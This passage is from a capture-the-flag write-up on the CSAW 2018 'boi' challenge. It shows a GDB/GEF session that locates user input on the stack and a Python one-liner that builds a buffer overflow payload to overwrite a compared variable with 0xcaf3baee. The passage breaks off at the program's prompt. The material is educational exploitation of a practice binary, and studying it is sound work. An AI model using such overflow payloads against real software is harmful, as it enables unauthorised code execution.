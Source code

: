 ```
0x00007fffffffde90│+0x0020: 0xdeadbeef00000000
0x00007fffffffde98│+0x0028: 0x0000000000000000
0x00007fffffffdea0│+0x0030: 0x00007fffffffdf90  →  0x0000000000000001
0x00007fffffffdea8│+0x0038: 0xd268c12ac770ee00
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400698 <main+87>        mov    rsi, rax
     0x40069b <main+90>        mov    edi, 0x0
     0x4006a0 <main+95>        call   0x400500 <read@plt>
 →   0x4006a5 <main+100>       mov    eax, DWORD PTR [rbp-0x1c]
     0x4006a8 <main+103>       cmp    eax, 0xcaf3baee
     0x4006ad <main+108>       jne    0x4006bb <main+122>
     0x4006af <main+110>       mov    edi, 0x40077c
     0x4006b4 <main+115>       call   0x400626 <run_cmd>
     0x4006b9 <main+120>       jmp    0x4006c5 <main+132>
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a5 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x00000000004006a5 in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde80 - 0x7fffffffde88  →   "15935728"
gef➤  x/10g 0x7fffffffde80
0x7fffffffde80:    0x3832373533393531    0xa
0x7fffffffde90:    0xdeadbeef00000000    0x0
0x7fffffffdea0:    0x7fffffffdf90    0xd268c12ac770ee00
0x7fffffffdeb0:    0x4006e0    0x7ffff7a05b97
0x7fffffffdec0:    0x0    0x7fffffffdf98
```

Here we can see that our input `15935728` is `0x14` bytes away. When we give the input `00000000000000000000` + p32(`0xcaf3baee`). We need the hex address to be in least endian (least significant byte first) because that is how the elf will read in data, so we have to pack it that way in order for the binary to read it properly:

```bash
$    python -c 'print "0"*0x14 + "\xee\xba\xf3\xca"' > input
$    gdb ./boi
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
75 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 5 commands could not be loaded, run `gef missing` to know why.
Reading symbols from ./boi...(no debugging symbols found)...done.
gef➤  b *0x4006a5
Breakpoint 1 at 0x4006a5
gef➤  r < input
Starting program: /Hackery/pod/modules/bof_variable/csaw18_boi/boi < input
Are you a big boiiiii??
```
